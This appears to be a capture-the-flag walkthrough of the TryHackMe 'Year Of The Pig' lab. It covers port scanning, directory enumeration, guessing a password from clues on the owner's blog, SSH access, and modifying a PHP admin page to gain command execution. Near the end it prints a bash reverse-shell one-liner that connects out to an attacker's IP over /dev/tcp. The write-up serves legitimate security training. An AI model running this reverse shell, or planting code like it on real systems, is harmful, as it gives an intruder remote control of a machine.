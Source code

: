 # Capture The FLag
[THM] Year Of The Pig Walkthrough

Start with a simple nmap scan:

sudo nmap -sV -A $IP

![Screenshot 2020-10-12 001215](https://user-images.githubusercontent.com/72692401/95679646-fb9fb780-0c1f-11eb-9c54-bb4e65bbe84f.png)


See that there are two opened ports: 
- http:80
- ssh:22

Maybe we have something to do with the http port, so I run gobuster against the website to find hidden directories if exist. Let's have a look at the website, it is about Marco's blog. Because we see that the website is Marco's blog, so marco is a possible username that we should keep in mind!

![homepage](https://user-images.githubusercontent.com/72692401/95679871-571e7500-0c21-11eb-98e5-cf590d279e00.png)

O GET FLAG1.TXT

Recall gobuster, found that there are some other hidden directories but we are interested in the first one !!! (But I think we shouldn't ignore the rest when enumerating, we are better to check all of them).

![gobuster](https://user-images.githubusercontent.com/72692401/95679743-9c8e7280-0c20-11eb-9813-eab78537d097.png)

Let's visit that directory. Hmm, it looks like we need to find credentials to login. I try to login with marco:marco and I failed. However, the website returns us a password hint.

![login](https://user-images.githubusercontent.com/72692401/95680061-82559400-0c22-11eb-8951-143d59d87204.png)

Do you remember marco blog page? He tells us a lot about his hobby which is all about planes and his favorite planes. Therefore, we can list them into the "a memorable word" referred to the password hint.

- A possible memorable word: marco, plane, planes, savoia, macchi, flying.

The password hint also mentioned about there are 2 numbers and a special character at the end of it. Until now, I think that I should try creating a simple python script to bruteforce login credentials. (I had included the script in github page site as well, for saving your time, I had removed some invalid combinations) (I'm really sorry because the script is not well-organized and bad).

![login](https://user-images.githubusercontent.com/72692401/95680440-7f0fd780-0c25-11eb-9eaf-1225623b50f7.png)

Successfully login, I immediately click onto "COMMANDS" page without any thinking and checking other pages !!!. 

I try different commands and also try escaping command filtering but it keeps returning "Invalid Command!". This could be a trap!

However, you remember that we have another port is opening, which is 22:ssh, I successfully login with the credentials that we found previously and read "flag1.txt"

![login](https://user-images.githubusercontent.com/72692401/95681024-525dbf00-0c29-11eb-8ccf-6f4390291964.png)

o GET FLAG2.TXT

Listing home directory, there is another user is curtis, maybe I have to find a way to compromise this user.
I tried to enumerate more about the current user and found that he belongs to "web-developers" group. The ability of this group is reading and writing files in "/var/www/html/admin/*".

In "/var/www/", I see a file called admin.db and I also realize that website using "sqlite3" to access to that database, which could possibly contain curtis's credentials.

Running "sqlite3 admin.db" returns "a permission denied" because the file is only readable and writable by "www-data". The attack vector is very straightfoward, we need to modify "commands.php" located in "/var/www/html/admin/commands.php" and get a reverse shell as "www-data".

All we need to do is changing line 52 as followed, we can run any commands that we want to.

![invalid](https://user-images.githubusercontent.com/72692401/95681747-52f85480-0c2d-11eb-8ab2-ca7410a68810.png)

Comeback to admin site -> commands -> running: bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1' and establish nc listening, we should a reverse shell !

















